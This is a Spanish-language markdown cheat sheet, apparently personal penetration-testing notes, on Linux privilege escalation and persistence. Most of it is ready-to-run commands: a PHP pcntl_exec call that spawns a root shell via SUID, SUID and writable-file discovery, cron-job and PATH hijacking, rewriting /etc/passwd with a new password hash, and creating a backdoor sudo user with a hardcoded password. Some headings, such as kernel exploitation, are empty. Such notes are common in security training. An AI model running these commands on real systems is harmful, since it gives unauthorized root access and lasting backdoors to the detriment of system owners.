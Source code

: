 #### Elevación SUID
```shell
#Abuso con php para levantar una shell como root
php -r "pcntl_exec('/bin/sh', ['-p']);"

#Buscar binarios con privilegios SUID
find / -perm -4000 2>/dev/null
```

#### Tareas programadas
```shell
crontab -e 
	* * * * * /bin/bash /tmp/script.sh
touch script.sh
chmod +x script.sh
chmod o+w script.sh

nano /tmp/script.sh
	#!/bin/bash
		sleep 2
		whoami > /tmp/out.put.txt
```

#### Path Hijacking
```shell
strings test | grep "whoami"

export PATH=/tmp/:$PATH
echo PATH
```

#### Cambiando la contraseña de un usuario (/etc/passwd)
```shell
#Detectamos ficheros que tienen permiso de escritura
find / -writable 2>/dev/null | grep -vE "python3.10|proc"

#Generamos una contraseña
openssl passwd

#Lo pegamos en el passwd (cambiando la contraseña)
nano /etc/paswd
```

#### Meter al usuario en el grupo root 

#### Permisos sobre algún script programado

#### Kernel explotation (ej: DirtyC0w)

## Persistencia
#### Creación de usuario local y asignación al grupo sudo
```shell
useradd usermio
passwd usermio
	patata
	
usermod -aG sudo usermio
```
